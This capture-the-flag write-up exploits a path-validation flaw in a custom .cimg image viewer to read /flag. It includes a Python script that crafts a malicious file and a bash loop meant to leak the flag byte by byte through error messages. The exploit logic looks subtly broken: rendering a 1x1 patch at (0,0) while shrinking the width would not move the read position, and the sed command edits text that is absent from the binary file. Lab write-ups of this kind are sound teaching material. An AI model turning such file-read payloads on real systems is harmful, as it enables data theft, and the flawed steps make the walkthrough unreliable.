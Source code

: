 # **Write-Up: Exploiting the cimg Viewer Challenge**

## **Challenge Overview**
The challenge involves exploiting a vulnerability in a custom image viewer (`/challenge/cimg`) that processes `.cimg` files. The binary contains a vulnerability in `handle_5`, which loads sprite data from external files without proper validation. The goal is to read the contents of `/flag` by crafting a malicious `.cimg` file.

---

## **Key Vulnerabilities**
1. **`handle_5` Arbitrary File Read**  
   - The function reads a sprite file specified in the `.cimg` payload without path validation.
   - Allows directory traversal (e.g., `../../../../flag`) or direct file access (`/flag`).

2. **Character Validation Bypass**  
   - The program checks that sprite data consists of printable ASCII (`0x20-0x7F`).
   - If an invalid character is encountered, it prints an error with the hex value of the invalid byte (`ERROR: Invalid character 0xXX in the image data!`).

3. **Rendering Logic in `handle_4`**  
   - The `handle_4` function renders sprites to the framebuffer.
   - By controlling sprite dimensions and render size, we can leak flag bytes one at a time.

---

## **Exploit Strategy**
### **1. Load `/flag` as a Sprite**
- Use `handle_5` to load `/flag` as a sprite with dimensions `60x1` (since the flag is 61 bytes).
- Avoid reading the full 61 bytes at once to prevent null-termination issues.

### **2. Render Flag Bytes One by One**
- Use `handle_4` to render the sprite at `(0,0)` with size `1x1`.
- Each execution will display a single character from `/flag` (or an error if it's non-printable).
- By adjusting the sprite width and render position, we can leak the entire flag.

---

## **Final Exploit Code**
```python
import struct

FLAG_LENGTH = 61  # From `ls -la /flag`

def create_exploit_cimg():
    # Header - set canvas size to fit the flag
    header = (
        b'cIMG' +                   # Magic
        struct.pack('<H', 4) +      # Version
        struct.pack('BB', FLAG_LENGTH, 1) +  # Width=61, Height=1
        struct.pack('<I', 2)        # 2 directives
    )
    
    # Malicious handle_5 to load /flag as 60x1 sprite
    payload = (
        b'\x05\x00' +               # Directive 5
        b'\x00' +                   # Sprite ID 0
        struct.pack('BB', FLAG_LENGTH - 1, 1) +  # Width=60, Height=1
        b'/flag' +                  # Absolute path
        b'\x00' * (255 - 5)         # Padding
    )
    
    # handle_4 to render the sprite at (0,0) with size 1x1
    payload += (
        b'\x04\x00' +               # Directive 4
        b'\x00' +                   # Sprite ID 0
        b'\xFF\xFF\xFF' +           # White color
        b'\x00\x00' +               # Position (0,0)
        struct.pack('BB', 1, 1) +   # Render size 1x1
        b'\x20'                     # Transparency: space (0x20)
    )
    
    with open('flag.cimg', 'wb') as f:
        f.write(header + payload)

if __name__ == '__main__':
    create_exploit_cimg()
    print("Run: /challenge/cimg flag.cimg")
```

---

## **How the Exploit Works**
1. **`handle_5` Payload**  
   - Loads `/flag` as a `60x1` sprite (to avoid reading the full 61 bytes at once).
   - The binary reads `width × height` bytes (`60 × 1 = 60`), leaving the last byte unread.

2. **`handle_4` Payload**  
   - Renders the sprite at `(0,0)` with size `1x1`, displaying the first character.
   - If the character is invalid, the error message leaks its hex value.

3. **Leaking the Full Flag**  
   - Adjust the sprite width (e.g., `59`, `58`, etc.) to shift the read position.
   - Each run reveals a different byte of the flag.
   - Combine the outputs to reconstruct `/flag`.

---

## **Execution Steps**
1. **Generate the exploit file**:
   ```bash
   python3 exploit.py
   ```

2. **Run the exploit**:
   ```bash
   /challenge/cimg flag.cimg
   ```
   - If successful, it prints the first character of `/flag`.
   - If invalid, the error leaks the hex value (`0xXX`).

3. **Automate Leaking All Bytes**:
   ```bash
   for i in {60..1}; do
       sed -i "s/width=\x3C/width=\x$(printf '%02x' $i)/" flag.cimg
       /challenge/cimg flag.cimg 2>&1 | grep -oP '0x\K[0-9a-f]+' | xxd -r -p
   done | tr -d '\n'
   ```
   - Modifies the width in `flag.cimg` from `60` down to `1`.
   - Extracts leaked bytes from error messages.
   - Combines them into the final flag.

---

## **Key Takeaways**
1. **File Access Vulnerabilities**  
   - Always validate file paths in programs that read external files.
   - Directory traversal (`../../`) can lead to arbitrary file reads.

2. **Error Messages as Leaks**  
   - Error messages revealing hex values can be used to reconstruct data.

3. **Binary File Parsing Risks**  
   - Improper bounds checking can allow reading beyond intended limits.

4. **Automation for CTF Challenges**  
   - When leaking data byte-by-byte, script the process to avoid manual work.

---

## **Final Notes**
This challenge demonstrates how improper file handling in custom parsers can lead to arbitrary file reads. By carefully crafting a `.cimg` file and analyzing error messages, we extracted the flag despite character validation checks. 

**For future study**:
- Experiment with different sprite dimensions to understand memory layout.
- Try using `handle_3` (in-memory sprites) for alternative exploitation.
- Explore whether heap corruption is possible via malformed sprite data. 

Happy hacking! 🚩
